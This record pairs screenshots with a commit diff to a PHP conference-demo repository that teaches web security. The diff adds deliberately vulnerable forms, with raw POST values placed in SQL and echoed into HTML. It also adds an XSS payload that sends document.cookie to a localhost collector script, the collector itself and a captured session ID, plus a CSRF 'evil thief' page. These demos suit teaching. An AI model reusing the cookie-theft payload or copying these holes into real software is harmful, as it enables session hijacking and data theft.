

Before and after one commit to bendechrai/preso-understanding-php, a PHP site: page /talks/ in a window 1280 px wide. Shown: the top 358 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Tidied up framesets, added data collection script, added helper text areas and log output

```diff
--- a/demo/0-reset_databases/index.php
+++ b/demo/0-reset_databases/index.php
@@ -18,7 +18,6 @@ if( isset($_POST['submit']) ) {
 	$db->exec("INSERT INTO user (username, password, admin) VALUES ('ben', 'password', 0)");
 	$db->exec("INSERT INTO user (username, password, admin) VALUES ('administrator', 'complex', 1)");
 
-	echo "DB Reset<br/><br/>";
 }
 ?>
 <form action="#" method="post"><input type="submit" name="submit" value="Reset Databases"/></form>
--- a/demo/1-naughty-users.html
+++ b/demo/1-naughty-users.html
@@ -2,10 +2,11 @@
 <head>
 	<title>Understanding PHP</title>
 </head>
-<frameset rows="100,100%">
-	<frameset cols="16%,84%">
+<frameset rows="130,100%">
+	<frameset cols="150,500,100%">
 		<frame src="0-reset_databases/index.php" />
 		<frame src="0-list-users/index.php" />
+		<frame src="0-access-log/index.php" />
 	</frameset>
 	<frame src="1-naughty-users/index.php" />
 </frameset>
--- a/demo/1-naughty-users/index.php
+++ b/demo/1-naughty-users/index.php
@@ -8,6 +8,7 @@ if( isset($_POST['action']) ) {
 
 	switch( $_POST['action'] ) {
 		case 'join':
+            if( $_POST['create_username'] == '' || $_POST['create_password'] == '' ) break;
 			$sql = "INSERT INTO user (username, password, admin) VALUES ('{$_POST['create_username']}', '{$_POST['create_password']}', 0)";
 			$db->exec($sql);
 			break;
@@ -26,12 +27,11 @@ if( isset($_POST['action']) ) {
 <head>
 	<script src="../jquery-1.8.1.min.js" type="text/javascript"></script>
 	<style>
+        input { width: 100% }
 		strong { color: red; }
 	</style>
 </head>
 <body>
-
-<h1>Naughty Users</h1>
 
 <?php if( isset($sql) ) : ?>
 	<p>SQL run: <?php echo htmlspecialchars( $sql ) ?></p>
@@ -45,26 +45,29 @@ if( isset($_POST['action']) ) {
 	<h2>Create Account</h2>
 	<form action="index.php" method="post">
 		<input type="hidden" name="action" value="join"/>
-		<div>Username <input type="text" id="create_username" size="35" name="create_username" value="<?php echo @$_POST["create_username"] ?>"/></div>
-		<?php echo htmlspecialchars('<input type="text" name="create_username" value="').'<strong>'.htmlspecialchars(@$_POST["create_username"]).'</strong>'.htmlspecialchars('"/>') ?>
-		<div>Password <input type="text" size="35" name="create_password" value="<?php echo @$_POST["create_password"] ?>"/></div>
-		<?php echo htmlspecialchars('<input type="text" name="create_password" value="').'<strong>'.htmlspecialchars(@$_POST["create_password"]).'</strong>'.htmlspecialchars('"/>') ?>
+		<div>Username <?php echo htmlspecialchars('<input type="text" name="create_username" value="').'<strong>'.htmlspecialchars(@$_POST["create_username"]).'</strong>'.htmlspecialchars('"/>') ?></div>
+        <div><input autocomplete="off" type="text" id="create_username" name="create_username" value="<?php echo @$_POST["create_username"] ?>"/></div>
+		<div>Password <?php echo htmlspecialchars('<input type="text" name="create_password" value="').'<strong>'.htmlspecialchars(@$_POST["create_password"]).'</strong>'.htmlspecialchars('"/>') ?></div>
+        <div><input autocomplete="off" type="text" name="create_password" value="<?php echo @$_POST["create_password"] ?>"/></div>
 		<div><input type="submit"/></div>
 	</form>
 	<span onclick="$('#create_username').val('&quot;><script>alert(\'foo\')</script>');">1</span>
+	<span onclick="$('#create_username').val('&quot;><script>var i=new Image();i.src=\'http://localhost/talks/understanding-php/collect.php?cookie=\'+document.cookie</script>');">2</span>
 </div>
 
 <div style="width: 49%; float: left">
 	<h2>Login Account</h2>
 	<form action="index.php" method="post">
 		<input type="hidden" name="action" value="login"/>
-		<div>Username <input type="text" size="35" name="login_username" value="<?php echo @$_POST["login_username"] ?>"/></div>
-		<?php echo htmlspecialchars('<input type="text" name="login_username" value="').'<strong>'.htmlspecialchars(@$_POST["login_username"]).'</strong>'.htmlspecialchars('"/>') ?>
-		<div>Password <input type="text" size="35" name="login_password" value="<?php echo @$_POST["login_password"] ?>"/></div>
-		<?php echo htmlspecialchars('<input type="text" name="login_password" value="').'<strong>'.htmlspecialchars(@$_POST["login_password"]).'</strong>'.htmlspecialchars('"/>') ?>
+		<div>Username <?php echo htmlspecialchars('<input type="text" name="login_username" value="').'<strong>'.htmlspecialchars(@$_POST["login_username"]).'</strong>'.htmlspecialchars('"/>') ?></div>
+        <div><input autocomplete="off" type="text" name="login_username" value="<?php echo @$_POST["login_username"] ?>"/></div>
+		<div>Password <?php echo htmlspecialchars('<input type="text" name="login_password" value="').'<strong>'.htmlspecialchars(@$_POST["login_password"]).'</strong>'.htmlspecialchars('"/>') ?></div>
+        <div><input autocomplete="off" type="text" name="login_password" value="<?php echo @$_POST["login_password"] ?>"/></div>
 		<div><input type="submit"/></div>
 	</form>
 </div>
 
+<textarea cols="80" rows="5" style="margin-top:30px; width:100%; clear:both"></textarea>
+
 </body>
 </html>
--- a/demo/2-naughty-third-parties.html
+++ b/demo/2-naughty-third-parties.html
@@ -2,10 +2,11 @@
 <head>
 	<title>Understanding PHP</title>
 </head>
-<frameset rows="100,100%">
-	<frameset cols="16%,84%">
+<frameset rows="130,100%">
+	<frameset cols="150,500,100%">
 		<frame src="0-reset_databases/index.php" />
 		<frame src="0-list-users/index.php" />
+		<frame src="0-access-log/index.php" />
 	</frameset>
 	<frameset cols="50%,50%">
 		<frame src="2-naughty-third-parties/good.php" />
--- a/demo/2-naughty-third-parties/evil.php
+++ b/demo/2-naughty-third-parties/evil.php
@@ -10,9 +10,13 @@ session_start();
 				var img = new Image();
 				img.src = a.currentTarget.href;
 				a.originalEvent.preventDefault();
+                $('#log').val("var img = new Image();\nimg.src = \"" + a.currentTarget.href + "\";\na.originalEvent.preventDefault();");
 			});
 		});
 	// --></script>
+    <style>
+        textarea{ width: 100%; height: 100px }
+    </style>
 </head>
 <body>
 <h1>Evil thief</h1>
@@ -24,3 +28,4 @@ Session:
 	<li><a href="http://localhost/talks/understanding_php/2-naughty-third-parties/api/addToCart" class="evil">add something to the cart</a></li>
 	<li><a href="http://localhost/talks/understanding_php/2-naughty-third-parties/api/setAddress?address=Thief's+Address" class="evil">set address</a></li>
 </ul>
+<textarea id="log"></textarea>
--- /dev/null
+++ b/demo/collect.php
@@ -0,0 +1 @@
+<?php file_put_contents(dirname(__FILE__).'/collect.txt', $_GET['cookie'], FILE_APPEND);
--- /dev/null
+++ b/demo/collect.txt
@@ -0,0 +1 @@
+PHPSESSID=50cq485q0d0hddu52h7o17b610
```
Also changed, not shown: demo/0-access-log/index.php (added, +8 -0 lines).
